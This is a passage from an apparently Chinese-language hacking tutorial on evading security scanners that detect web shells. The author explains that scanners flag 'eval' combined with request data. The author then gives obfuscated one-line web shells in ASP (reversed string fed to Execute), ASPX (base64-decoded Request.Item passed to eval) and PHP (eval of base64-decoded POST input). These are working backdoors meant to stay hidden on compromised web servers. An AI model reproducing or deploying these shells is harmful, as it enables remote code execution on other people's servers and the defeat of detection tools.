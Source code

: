 我把 Request/POST 前随便加了一个字符，再扫一扫，结果如上图。可见安全类软件杀掉的不是 eval(execute/executeglobal/assert……)，而是 eval+"请求数据"。当脚本内有 eval 字串时仅仅只是提醒而已(如果连执行函数都杀，那“上帝”造它干吗！)。但是上图中的三个脚本没一个是可以正常执行的，哪有 srequest 呢！

这样我们就没招了吗？答案是否定的！我们可以用这样的方式来绕一绕：[exec decoding(excoding)]=》伪代码。其中 excoding 为已经编码了的原生一句话。encode 和 decode 函数自己创造吧……

经过一番功夫，我把 Shell 代码改造如下(当然如下代码都不是最好的，因为我有点懒):

ASP:

```
<%
Function MorfiCode(Code)
    MorfiCoder=Replace(Replace(StrReverse(Code),"/*/",""""),"\*\",vbCrlf)
End Function
Execute MorfiCode(")/*/z/*/(tseuqer lave")
%>

```

ASPX:

```
<script runat="server" language="Jscript">
function popup(str){
    var q = "u";
    var w = "afe";
    var a = q + "ns" + w;
    var b = eval(str,a);
    return(b);
}
</script>
<%
popup(popup(System.Text.Encoding.GetEncoding(65001).GetString(System.Convert.FromBase64String("UmVxdWVzdC5JdGVtWyJ6Il0="))));
%>

```

PHP

```
<?php
$mujj = $_POST['z'];
if($mujj!="")
{
    $xsser = base64_decode($_POST['z0']);
    @eval("\$safedg = $xsser;")
}
?>

```

效果呢，如下图：
